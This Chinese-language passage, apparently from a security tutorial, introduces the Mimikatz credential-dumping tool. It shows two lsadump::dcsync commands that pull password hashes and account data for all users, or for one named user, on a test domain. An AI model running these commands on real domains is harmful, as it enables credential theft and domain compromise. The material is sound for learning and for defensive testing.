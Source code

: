 ### Mimikatz

项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
项目介绍：mimikatz 用于从 Windows 操作系统内存中提取明文密码、散列、pin 码和 kerberos 票据，同时 mimikatz 还可以执行传递散列、传递票证或构建黄金票证。  
工具使用：  
a、获取所有域内用户的账户信息

```plain
lsadump::dcsync /domain:hacke.testlab /all /csv
```

[![](assets/1706090550-11eec5fabbeede7e7d23337bcbfd1e7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100904-8c7aeb00-ba5d-1.png)  
b、通过使用/user 参数指定域用户名来获取特定用户的所有帐户信息，包括其密码哈希

```plain
lsadump::dcsync /domain:hacke.testlab /user:testuser
```

[![](assets/1706090550-2a54015a4eff95c2d7968cf69d8adcf3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124100927-99f2ca82-ba5d-1.png)
